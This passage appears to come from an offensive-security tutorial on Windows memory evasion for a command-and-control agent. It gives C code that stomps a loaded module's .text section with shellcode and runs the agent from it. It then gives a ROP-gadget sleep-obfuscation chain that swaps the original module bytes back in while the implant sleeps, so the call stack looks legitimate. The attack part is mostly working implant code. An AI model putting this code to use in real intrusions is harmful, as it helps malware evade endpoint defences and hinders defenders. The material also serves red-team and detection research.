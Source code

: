 After changing the protection to ``RW``, we will populate the agent backup and write our shellcode to the ``.text`` section, then revert to the previous protection, and finally call ShellcodeMain, passing the structure as an argument.

```c
    Instance.Win32.VirtualProtect( MmBase, SecHdr->SizeOfRawData, PAGE_READWRITE, &Protect );
    
    MmCopy( StompArgs.ModBackup, MmBase, ShellcodeSize );
    MmCopy( MmBase, ShellcodeBuffer, ShellcodeSize );

    MmZero( ShellcodeBuffer, ShellcodeSize ); // this depends on the shellcode location

    bCheck = Instance.Win32.VirtualProtect( MmBase, SecHdr->SizeOfRawData, Protect, &Protect );
    if ( !bCheck ) return;
    
    Instance.Win32.BlackoutMain( &StompArgs );
```

# Agent: SleepObf + Stomping

We will start the sleep obfuscation chain by changing the RX area's address to ``RW``, then writing with the module's backup, reverting to ``RX``, and then sleeping:

```c
    RopProtRx.Rip = Gadget; //jmp rbx gadget
    RopProtRw.Rbx = &Instance()->Win32.VirtualProtect;
    RopProtRw.Rcx = Instance()->Base.RxBase;
    RopProtRw.Rdx = Instance()->Base.RxBase;
    RopProtRw.R8  = PAGE_READWRITE;
    RopProtRw.R9  = &OldProt;

    RopModBcp.Rip = Instance()->Win32.WriteProcessMemory;
    RopModBcp.Rcx = NtCurrentProcess(); 
    RopModBcp.Rdx = Instance()->Base.Buffer;
    RopModBcp.R8  = Instance()->StompArgs->ModBackup;
    RopModBcp.R9  = Instance()->Base.FullLen;

    RopProtRx.Rip = Gadget; //jmp rbx gadget
    RopProtRx.Rbx = &Instance()->Win32.VirtualProtect;
    RopProtRx.Rcx = Instance()->Base.Buffer;
    RopProtRx.Rdx = Instance()->Base.FullLen;
    RopProtRx.R8  = PAGE_EXECUTE_READ;
    RopProtRx.R9  = &OldProt;

    RopDelay.Rip = Instance()->Win32.WaitForSingleObjectEx;
    RopDelay.Rcx = NtCurrentProcess();
    RopDelay.Rdx = SleepTime;
    RopDelay.R8  = FALSE;
```

Now let's observe that the ``call stack`` appears legitimate.

![imgstack](../commons/memory_evasion_pt2/imgstack.png)
